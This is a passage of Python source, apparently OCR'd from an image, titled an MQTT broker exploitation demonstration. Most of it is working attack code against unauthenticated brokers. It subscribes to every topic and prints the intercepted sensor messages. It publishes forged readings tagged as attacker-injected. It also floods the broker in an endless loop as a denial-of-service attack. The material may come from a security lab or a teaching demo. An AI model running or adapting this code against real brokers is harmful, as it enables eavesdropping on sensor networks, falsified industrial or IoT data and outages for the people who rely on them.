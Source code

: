 ```python
        print("[+] No authentication required!")
        
        # Subscribe to all topics
        client.subscribe("#")
        print("[*] Subscribed to all topics (#)")
    else:
        print(f"[-] Connection failed with code: {rc}")

def on_message(client, userdata, msg):
    """Callback when message received"""
    print(f"\n[INTERCEPTED] Topic: {msg.topic}")
    try:
        payload = json.loads(msg.payload.decode())
        print(f"    Timestamp: {payload.get('timestamp')}")
        print(f"    Sensor ID: {payload.get('sensor_id')}")
        print(f"    Value: {payload.get('reading_value')}")
    except:
        print(f"    Raw: {msg.payload}")

def inject_false_data(client):
    """Inject malicious sensor data"""
    print("\n[*] Injecting false sensor data...")
    
    fake_data = {
        "timestamp": "2025-10-29T12:00:00Z",
        "sensor_id": "ATTACKER_INJECTED/malicious",
        "reading_value": 999.9
    }
    
    result = client.publish(MQTT_TOPIC, json.dumps(fake_data))
    
    if result.rc == mqtt.MQTT_ERR_SUCCESS:
        print("[+] False data injected successfully!")
        print(f"    {json.dumps(fake_data)}")
    else:
        print("[-] Injection failed")

def dos_attack(client):
    """Flood MQTT broker with messages"""
    print("\n[*] Starting DoS attack...")
    print("[*] Flooding broker with messages (Ctrl+C to stop)")
    
    try:
        count = 0
        while True:
            flood_msg = f"FLOOD_{count}_{time.time()}"
            client.publish(MQTT_TOPIC, flood_msg)
            count += 1
            
            if count % 100 == 0:
                print(f"[*] Sent {count} flood messages")
                
    except KeyboardInterrupt:
        print(f"\n[*] DoS attack stopped after {count} messages")

def main():
    print("="*60)
    print("    MQTT BROKER EXPLOITATION DEMONSTRATION")
    print("="*60)
    
    # Create MQTT client
    client = mqtt.Client()
    client.on_connect = on_connect
```